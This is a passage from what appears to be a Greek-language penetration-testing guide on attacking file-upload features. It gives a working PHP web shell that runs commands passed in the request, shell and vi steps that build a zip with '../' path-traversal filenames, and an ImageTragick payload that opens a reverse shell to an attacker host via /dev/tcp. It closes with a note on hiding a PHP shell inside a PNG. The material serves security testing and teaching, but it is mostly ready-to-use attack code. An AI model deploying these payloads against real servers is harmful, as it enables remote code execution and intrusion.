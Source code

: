 ```python

create_zip()
```
**Κατάχρηση συμπίεσης για file spraying**

Για περισσότερες λεπτομέρειες **ελέγξτε την αρχική ανάρτηση στο**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Δημιουργία PHP Shell**: Ο κώδικας PHP γράφεται για να εκτελεί εντολές που περνούν μέσω της μεταβλητής `$_REQUEST`.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```
2.  **File Spraying και Δημιουργία Συμπιεσμένου Αρχείου**: Δημιουργούνται πολλαπλά αρχεία και συναρμολογείται ένα zip αρχείο που περιέχει αυτά τα αρχεία.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```
3.  **Τροποποίηση με Hex Editor ή vi**: Τα ονόματα των αρχείων μέσα στο zip τροποποιούνται χρησιμοποιώντας vi ή έναν hex editor, αλλάζοντας το "xxA" σε "../" για να διασχίσουν τους καταλόγους.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Ανεβάστε αυτό το περιεχόμενο με μια επέκταση εικόνας για να εκμεταλλευτείτε την ευπάθεια **(ImageMagick , 7.0.1-1)** (από το [exploit](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## Ενσωμάτωση PHP Shell σε PNG

Η ενσωμάτωση ενός PHP shell στο IDAT chunk ενός αρχείου PNG μπορεί να παρακάμψει αποτελεσματικά ορισμένες λειτουργίες επεξεργασίας εικόνας. Οι συναρτήσεις `imagecopyresized` και `imagecopyresampled` από το PHP-GD είναι ιδιαίτερα σχετικές σε αυτό το πλαίσιο, καθώς χρησιμοποιούνται συνήθως για την αλλαγή μεγέθους και την επαναδειγματοληψία εικόνων, αντίστοιχα. Η ικανότητα του ενσωματωμένου PHP shell να παραμένει ανεπηρέαστο από αυτές τις λειτουργίες είναι ένα σημαντικό πλεονέκτημα για ορισμένες περιπτώσεις χρήσης.
